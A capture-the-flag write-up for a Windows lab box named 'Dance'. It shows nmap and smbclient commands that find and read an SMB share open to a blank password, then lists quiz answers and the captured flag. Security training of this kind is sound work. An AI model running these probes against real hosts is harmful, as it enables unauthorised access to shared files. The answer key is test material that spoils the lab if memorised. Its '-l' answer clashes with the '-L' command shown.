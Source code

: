 # Dance

> IP: [10.129.33.34]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.33.34 -oN init_scan

        ```text
            PORT    STATE SERVICE       VERSION
            135/tcp open  msrpc         Microsoft Windows RPC
            139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
            445/tcp open  microsoft-ds?
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

            Host script results:
            |_clock-skew: 4h00m00s
            | smb2-time: 
            |   date: 2024-01-30T04:21:13
            |_  start_date: N/A
            | smb2-security-mode: 
            |   3:1:1: 
            |_    Message signing enabled but not required
        ```

3. SMB
   1. > smbclient -L 10.129.33.34

        ```text
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            WorkShares      Disk 
        ```

   2. > smbclient \\\\10.129.33.34\\ADMIN$
      1. NT_STATUS_ACCESS_DENIED
   3. > smbclient \\\\10.129.33.34\\C$
      1. NT_STATUS_ACCESS_DENIED
   4. > smbclient \\\\10.129.33.34\\IPC$
      1. NT_STATUS_ACCESS_DENIED
   5. > smbclient \\\\10.129.33.34\\WorkShares
      1. > ls
         1. Amy.J, James.p
      2. > cd Amy.j
         1. > get worknotes.txt
      3. > cd James.p
         1. > get flag.txt

## QUESTIONS

1. What does the 3-letter acronym SMB stand for?
   1. `server message block`
2. What port does SMB use to operate at?
   1. `445`
3. What is the service name for port 445 that came up in our Nmap scan?
   1. `microsoft-ds`
4. What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
   1. `-l`
5. How many shares are there on Dancing?
   1. `4`
6. What is the name of the share we are able to access in the end with a blank password?
   1. `workshares`
7. What is the command we can use within the SMB shell to download the files we find?
   1. `get`
8. Submit root flag
   1. `5f61c10dffbc77a704d76016a22f1664`
